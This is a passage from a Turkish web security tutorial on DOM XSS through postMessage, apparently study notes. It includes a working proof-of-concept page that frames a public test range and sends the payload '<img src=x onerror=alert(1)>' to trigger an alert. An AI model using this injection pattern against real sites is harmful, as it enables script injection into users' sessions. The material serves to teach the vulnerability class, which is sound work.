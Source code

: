 Artık bu sayede postMessage ile istediğimiz mesajı iletebildiğimizi teyit edebiliriz.

![Untitled](0x09%20770e9a14727f44d080ea40a453968369/Untitled%205.png)

Özetleyecek olursag ‘***target.src***’ kısmında belirttiğimiz bir hedef site bulduk. Bu hedef sitedeki JavaScript kodları kendisini iframe ile açan bir sayfadan mesaj almakta ve aldığı bu mesajdaki veriyi parse ettikten sonra bir div element’i oluşturmakta daha sonra da div’in içeriğine sizden aldığı data’yı yazmaktadır. Biz de burada kendi sitemizde bu hedef siteyi iframe ile yükletip istediğimiz mesajı gönderiyoruz. Burada artık XSS’in meydana geldiğini bu kod yapısı sayesinde tespit edebiliriz.

```
<html>
    <iframe id="target" src="">

    </iframe>

    <script>
        var target = document.getElementById('target');

        target.addEventListener('load', function(){
            //buradan iframe içerisine bir mesaj göndereceğiz
            var payload = {'html':'<img src=x onerror=alert(1)>'};
            target.contentWindow.postMessage(JSON.stringify(payload),'*');
            //postMessage frame'ler arası iletişimi sağlamaktaydı.
        });
        target.src=
        "https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml"
    </script>
</html>
```

Bu sayede artık XSS payload’ımıza göre sayfada yüklenmeye çalışılan resim hata vereceği için alert(1) pop-up uyarısı başarıyla gösterilmiş durumda.

![Untitled](0x09%20770e9a14727f44d080ea40a453968369/Untitled%206.png)
